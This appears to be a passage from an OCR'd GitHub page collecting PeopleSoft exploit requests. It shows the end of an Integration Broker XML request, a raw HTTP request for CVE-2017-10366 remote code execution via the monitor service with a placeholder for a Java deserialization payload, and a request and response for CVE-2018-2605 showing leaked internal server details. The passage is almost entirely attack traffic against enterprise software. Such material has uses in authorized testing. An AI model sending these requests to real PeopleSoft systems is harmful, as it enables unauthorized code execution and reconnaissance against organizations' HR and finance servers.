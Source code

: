 ```http
      <OrigTimeStamp/>
   </From>
   <To>
      <FinalDestination/>
      <DestinationNode/>
      <SubChannel/>
   </To>
   <ContentSections>
      <ContentSection>
         <NonRepudiation/>
         <MessageVersion/>
         <Data><![CDATA[<?xml version="1.0"?>your_message_content]]>
         </Data>
      </ContentSection>
   </ContentSections>
</IBRequest>
```

#### [CVE-2017-10366] RCE vulnerability in monitor service of PeopleSoft 8.54, 8.55, 8.56
```http
POST /monitor/%SITE_NAME% HTTP/1.1
Host: PeopleSoft:PORT
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:51.0)
Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Cookie:a=aa

§JAVA_SERIAL§

%SITE_NAME% - is a PeopleSoft "name" to get it you can use some information
```

#### [CVE-2018-2605] Information Disclosure of PeopleSoft 8.54, 8.55, 8.56
```http

POST http://<PEOPLESOFT_HOST>:8000/PSIGW/PeopleSoftListeningConnector
Content-Type: application/json
1
2
POST http://<PEOPLESOFT_HOST>:8000/PSIGW/PeopleSoftListeningConnector
Content-Type: application/json
-- response --
 
200 OK
Date: Fri, 16 Jun 2017 11:34:07 GMT
Content-Length: 675
Content-Type: text/plain; charset=UTF-8
Message-ID: 1133584668.1497612847565.JavaMail.Administrator@psfthcmwin <--!!! INFORMATION DISCLOSE
Date: Fri, 16 Jun 2017 04:34:07 -0700 (PDT)
Mime-Version: 1.0
Content-Type: multipart/related; 
boundary="----=_Part_95_86951755.1497612847564"
Content-ID: PeopleSoft-Integration-Broker-Internal-Mime-Message
------=_Part_95_86951755.1497612847564
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
Content-Disposition: inline
Content-ID: IBInfo
<?xml version="1.0"?>2015810408Integration Gateway Error
------=_Part_95_86951755.1497612847564--
```